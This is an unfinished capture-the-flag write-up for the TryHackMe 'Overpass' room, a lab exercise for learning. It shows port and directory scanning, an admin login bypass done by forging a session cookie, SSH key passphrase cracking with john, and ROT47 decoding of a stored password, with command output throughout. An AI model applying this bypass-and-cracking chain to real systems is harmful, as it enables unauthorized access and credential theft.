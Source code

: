 ## [Overpass](https://tryhackme.com/room/overpass#)

This room has very little instructions. In fact, it only tells you, what need to find in the end.
First of all, we will start the machine and run a good old nmap scan to see whats running.

```
┌──(root㉿kali)-[~]
└─# nmap -sV -sC -n 10.10.64.141
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-15 09:46 UTC
Nmap scan report for 10.10.64.141
Host is up (0.0075s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37968598d1009c1463d9b03475b1f957 (RSA)
|   256 5375fac065daddb1e8dd40b8f6823924 (ECDSA)
|_  256 1c4ada1f36546da6c61700272e67759c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
MAC Address: 02:39:94:5A:24:49 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.15 seconds
```
Alright, this tells us, that we can reach the machine over http and ssh. Since we don't have any clues to log in with ssh, let's look at the webpage first.
The site greets us with a short intro to their product and gives some info on the creators on an aboutus-page. There is also a download page with their product: a password manager. 
It's always a good idea to look for some common directories when attacking webpages. 
So let's do that:

```
┌──(root㉿kali)-[~]
└─# dirb http://$IP -l /usr/share/wordlists/dirb/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Mar 15 08:43:39 2023
URL_BASE: http://10.10.64.141/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Printing LOCATION header

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.64.141/ ----
==> DIRECTORY: http://10.10.64.141/aboutus/                                             
+ http://10.10.64.141/admin (CODE:301|SIZE:42)                                          
  (Location: '/admin/')
==> DIRECTORY: http://10.10.64.141/css/                                                 
==> DIRECTORY: http://10.10.64.141/downloads/                                           
==> DIRECTORY: http://10.10.64.141/img/                                                 
+ http://10.10.64.141/index.html (CODE:301|SIZE:0)                                      
  (Location: './')
                                                                                        
---- Entering directory: http://10.10.64.141/aboutus/ ----
+ http://10.10.64.141/aboutus/index.html (CODE:301|SIZE:0)                              
  (Location: './')
                                                                                        
---- Entering directory: http://10.10.64.141/css/ ----
+ http://10.10.64.141/css/index.html (CODE:301|SIZE:0)                                  
  (Location: './')
                                                                                        
---- Entering directory: http://10.10.64.141/downloads/ ----
+ http://10.10.64.141/downloads/index.html (CODE:301|SIZE:0)                            
  (Location: './')
+ http://10.10.64.141/downloads/src (CODE:301|SIZE:0)                                   
  (Location: 'src/')
                                                                                        
---- Entering directory: http://10.10.64.141/img/ ----
+ http://10.10.64.141/img/index.html (CODE:301|SIZE:0)                                  
  (Location: './')
                                                                                        
-----------------
END_TIME: Wed Mar 15 08:43:51 2023
DOWNLOADED: 23060 - FOUND: 7
```
Nothing too wild, but the admin page looks interesting. Remembering the aboutus page, I tried to bruteforce my way in, by using the names listed and the rockyou wordlist - but unsuccessful.
I gotta admit I was kinda stuck here. So I took a few looks around and after some time of being frustrated I wandered across the login.js script on the /admin page (kind of lying under my nose the whole time). 
The script contains this login funktion:
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```
As we can see in the if clause, if the credentials are correct (or at least not labeled incorrect) a cookie "SessionToken" with value "statusOrCookie" is set. In that case we don't need to find credentials to login, we can just set the cookie manually, reload the page and voilà where in :).
This page shows a message from Paradox to James and reads as follows:
>Since you keep forgetting your password, James, I've set up SSH keys for you.
>
>If you forget the password for this, crack it yourself. I'm tired of fixing stuff for you.
>Also, we really need to talk about this "Military Grade" encryption. - Paradox

Followed by an ssh key. With user James and the key we can try to gain ssh access.
First we create an `id_rsa` file in `~/.ssh/`. They key is also password protected, so let's run ssh2john over it to create a hash file, which we can then crack with john:
```
┌──(root㉿kali)-[~/.ssh]
└─# ssh2john id_rsa > rsa.hashes
┌──(root㉿kali)-[~/.ssh]
└─# sudo  john --wordlist=/root/Desktop/wordlists/rockyou.txt --format=SSH rsa.hashes 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
j#####          (id_rsa)     
1g 0:00:00:00 DONE (2023-03-15 11:03) 3.225g/s 43148p/s 43148c/s 43148C/s lisa..honolulu
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Now login via ssh and capture the first flag:
```
┌──(root㉿kali)-[~/.ssh]
└─# ssh james@10.10.64.141  
Enter passphrase for key '/root/.ssh/id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 15 11:09:43 UTC 2023

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 13%                IP address for eth0: 10.10.64.141
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{#######################}
```

with `ls -al` we can find a .overpass file which contains an interesting looking string. Since this room is about a password manager, this .overpass file most likely is a encrypted password. To decrypt it we first have to find out what encryption method overpass uses. by taking a look into the source code we find the following:

```
//Load the credentials from the encrypted file
func loadCredsFromFile(filepath string) ([]passListEntry, string) {
	buff, err := ioutil.ReadFile(filepath)
	if err != nil {
		fmt.Println(err.Error())
		return nil, "Failed to open or read file"
	}
	//Decrypt passwords
	buff = []byte(rot47(string(buff)))
	//Load decrypted passwords
	var passlist []passListEntry
	err = json.Unmarshal(buff, &passlist)
	if err != nil {
		fmt.Println(err.Error())
		return nil, "Failed to load creds"
	}
	return passlist, "Ok"
}

```

>buff = []byte(rot47(string(buff)))

CyberChef + Rot47 + our string = `[{"name":"System","pass":"saydrawnlyingpicture"}]`

TBC









